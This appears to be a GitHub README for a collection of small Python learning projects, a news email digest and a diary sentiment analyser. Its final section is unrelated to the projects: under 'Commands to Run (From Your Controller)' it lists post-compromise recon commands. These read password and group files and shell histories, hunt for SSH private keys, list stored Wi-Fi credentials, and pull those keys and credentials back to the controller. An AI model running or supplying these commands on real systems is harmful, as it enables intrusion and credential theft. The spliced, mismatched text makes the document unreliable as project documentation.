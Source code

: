 
# 🐍 Python Small Projects Collection

This repository contains a curated set of small, practical Python projects designed for learning, automation, experimentation, and real-world application. Each project is self-contained and includes documentation, code, and dependencies where needed.

---

## 🚀 Getting Started

### 1. Clone the Repository

```bash
git clone https://github.com/your-username/python_small_projects.git
cd python_small_projects
```

### 2. Navigate to a Project

```bash
cd news_api_email
# or
cd NLP_for_eBooks
```

### 3. Install Dependencies

* You can either install project-specific `requirements.txt` file.
* Or install the global one at the root of the repo:
```bash
pip install -r requirements.txt
```

---

## 🧠 Projects Overview

### `news_api_email/`
Fetches top 3 headlines for tech, science, and business from US & Israel using NewsAPI.org, formats them, and sends them via Gmail SMTP. Ideal for daily digests or news briefings.

- Uses: `requests`, `dotenv`, `smtplib`
- Includes rate limiting and fallback for limited results from IL
- Supports secure email sending via Gmail App Password

> 📬 Great for personal info digests or automation exercises.

### `NLP_for_eBooks/`
Analyzes diary entries using sentiment analysis (nltk) and displays visualized mood trends using streamlit and plotly.

- Uses: nltk, plotly, streamlit
- Reads .txt files from /diary
- Outputs sentiment graphs for positivity & negativity
---

## 📬 Contributing

Have an idea for a mini-project? Fork this repo and add a new folder under `python_small_projects/`, or open a pull request with suggestions.

---


### 📥 Commands to Run (From Your Controller)
Here are some high-value, low-risk recon commands you can run now:

```bash
cat /etc/passwd
cat /etc/group
cat ~/.bash_history
ps aux
find /home -name id_rsa
cat /proc/meminfo
ls -la /etc/NetworkManager/system-connections/
find /home -name .bash_history -exec cat {} \;
whoami && hostname && uname -a && ip a && ps aux
```
You can then get any files that look interesting, like:

```bash
get /home/user/.ssh/id_rsa
get /etc/NetworkManager/system-connections/MyWiFi
```